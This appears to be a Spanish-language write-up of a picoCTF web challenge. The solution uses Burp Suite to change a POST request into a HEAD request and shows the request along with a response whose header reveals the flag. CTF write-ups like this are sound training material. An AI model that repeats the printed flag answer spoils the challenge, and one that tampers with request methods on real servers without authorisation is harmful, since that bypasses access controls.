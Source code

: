 #### - **Descripción** 
Encuentra la bandera que se encuentra en este servidor para adelantarte a la competencia [http://mercury.picoctf.net:47967/](http://mercury.picoctf.net:47967/)

*PISTAS* 
Quizás tengas más de 2 opciones
Consulta herramientas como Burpsuite para modificar tus solicitudes y ver las respuestas.

#### - **Solución** 
1. Utilice Burp Suite para interceptar la solicitud de hacer clic en el botón "Elegir azul".
    
2. Cambie la solicitud POST a una solicitud HEAD:
    
    ```
    HEAD /index.php HTTP/1.1
    Host: mercury.picoctf.net:47967
    Content-Length: 0
    Origin: http://mercury.picoctf.net:47967
    Connection: close
    ```
    
3. El HTML devuelto de la solicitud HEAD en el navegador estará vacío, pero en la pestaña de historial HTTP de Proxy en Burp Suite puede encontrar la bandera como un encabezado HTTP en la respuesta:
    
    ```
    HTTP/1.1 200 OK
    flag: picoCTF{r3j3ct_th3_du4l1ty_cca66bd3}
    Content-type: text/html; charset=UTF-8
    ```